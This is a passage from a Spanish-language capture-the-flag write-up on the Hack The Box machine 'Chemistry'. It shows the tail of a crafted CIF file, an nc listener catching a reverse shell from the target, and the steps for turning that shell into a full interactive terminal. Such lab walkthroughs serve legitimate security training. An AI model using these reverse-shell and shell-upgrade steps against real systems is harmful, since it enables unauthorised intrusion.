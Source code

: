 ~~~ bash
_space_group_magn.number_BNS  62.448
_space_group_magn.name_BNS  "P  n'  m  a'  "
~~~

Cuando subamos nuevamente el archivo y volvamos a hacer clic en `View`, recibiremos la conexión en nuestra máquina

~~~ bash
nc -lvnp 443    
listening on [any] 443 ...
connect to [10.10.14.254] from (UNKNOWN) [10.10.11.38] 46178
bash: cannot set terminal process group (1082): Inappropriate ioctl for device
bash: no job control in this shell
app@chemistry:~$ 
~~~

Con esto ya estaríamos dentro de la máquina víctima, podemos hacer el comando `hostname -I` para comprobar la IP y verificar que estemos en la máquina Chemistry y no en algún contenedor



# Escalada de privilegios
---
## TTY Treatment

Haremos un tratamiento de la TTY para que la consola sea más interactiva y así poder hacer uso de `CTRL + C` y `CTRL + L`

~~~ bash
script /dev/null -c bash
export TERM=xterm

# Presionamos CTRL + Z
# En nuestra máquina atacante ejecutamos lo siguiente
stty raw -echo; fg

# Volveremos a la máquina vítcima, reiniciamos la sesión
reset xterm
~~~

Ya podremos hacer `CTRL + C` sin que se nos vaya pal carajo la consola. Por último, ajustaremos las proporciones a las de nuestra terminal

~~~ bash
# En nuestra máquina vemos nuestras proporciones
stty size

45 184

# En la máquina vítcima ejecutamos lo siguiente
app@chemistry:~$ stty rows 45 columns 184
~~~~

